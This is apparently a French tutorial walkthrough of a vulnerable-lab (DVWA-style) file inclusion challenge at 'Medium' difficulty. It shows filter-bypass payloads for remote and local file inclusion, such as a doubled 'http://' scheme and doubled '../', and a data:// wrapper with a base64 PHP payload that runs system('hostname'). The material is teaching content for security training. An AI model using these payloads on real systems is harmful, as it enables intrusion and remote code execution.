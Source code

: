 # Niveau "Medium"

Sur ce niveau, il ne semble plus possible d'effectuer une RFI ainsi que d'utiliser la technique du path traversal (mais la LFI reste toujours possible) :

![](../../../../.gitbook/assets/12000a3502b9dc31280d18f793f10c96.png)

Après quelques essais on devine l'utilisation d'un filtrage des patterns `http://` et `https://`. Ce genre de filtrage est très souvent contournable car il est facile pour le développeur d'oublier un scénario. Il suffit par exemple ici de doubler le schéma désiré :

```http
?page=hthttp://tp://www.google.fr
```

![](../../../../.gitbook/assets/6db04f47f06efb8c2bef57d432450d27.png)

{% hint style="info" %}
Etant donné que seule les protocoles `http://` ou `https://` sont filtrés, il est également possible de passer par un autre protocole (comme `ftp://`) afin de réaliser l'attaque
{% endhint %}

Le path traversal semble maintenant impossible à ce niveau :

![](../../../../.gitbook/assets/a4d91e7de5a626a79d995d911f979bfc.png)

Mais contournable avec la même technique de contournement de doublement (car le filtrage est sans doute effectué sur les occurrences `../` ) :

![](../../../../.gitbook/assets/ec7901f0677409430af1d90c1070d2fc.png)

L'utilisation de wrappers PHP reste tout de même possible :

![](../../../../.gitbook/assets/2057362e5ab96e727601f3daa14c87f9.png)

Mais plus intéressant, l'exécution de code grâce au wrapper `data://` fonctionne également (un autre wrapper bien dangereux comme il faut :yum:) :

```http
?page=data://text/plain;base64.PD9waHAgc3lzdGVtKCdob3N0bmFtZScpOyA/Pg==
```

![](../../../../.gitbook/assets/30c63e8cd4a4620e2ca9674088884cb4.png)

La payload encodée en base64 étant la suivante :

```php
<?php 
  system('hostname');
?>
```

##

